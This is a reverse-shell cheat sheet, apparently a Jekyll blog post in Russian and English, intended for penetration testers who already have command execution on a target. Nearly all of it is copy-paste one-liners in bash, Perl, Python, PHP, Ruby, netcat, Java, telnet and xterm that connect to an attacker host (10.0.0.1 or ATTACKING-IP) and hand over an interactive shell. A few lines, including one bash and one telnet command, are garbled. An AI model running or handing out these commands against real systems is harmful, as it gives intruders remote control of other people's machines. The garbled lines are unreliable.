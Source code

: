 ```yaml
---
layout: post
categories: cheatsheets_rus
published: true
---
```

# Оглавление
{:.no_toc}

* toc
{:toc}

# Общие слова

Если тебе повезло обнаружить уязвимость выполнения команд во время теста на проникновение, довольно скоро тебе захочется интерактивный шелл.

Если не получается добавить новый аккаунт / SSH ключ / .rhosts файл, твой следующий шаг, вероятно, будет либо делать обратный шелл, либо привязывать оболочку к порту TCP. Эта страница поможет с первым.

Варианты делать обратный шелл ограничены языками сценариев, установленными в целевой системе, хотя также можете загрузить бинарник, если достаточно хорошо подготовиться.

Показанные примеры предназначены для Unix-подобных систем. Некоторые из приведенных ниже примеров также должны работать в Windows, если вы используете замену “/bin/sh -i” с “cmd.exe”.

Почти каждый из методов приведенных ниже предназначен для использования в качестве одной строки которую можно копировать/вставлять. Это довольно короткие строки, но не очень читаемые.

# Bash

Некоторые версии bash могут помочь с реверс шеллом (почти все если быть точным):
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
~~~
exec /bin/bash 0&0 2>&0
~~~
# PERL

Here’s a shorter, feature-free version of the   perl-reverse-shell:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Also for Windows

~~~
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~
~~~
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

# Python

This was tested under Linux / Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

[Untested submission from anonymous reader]

# Telnet 

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
~~~
~~~
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
~~~

Remember to listen on 443 on the attacking machine also.

# xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

	Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip
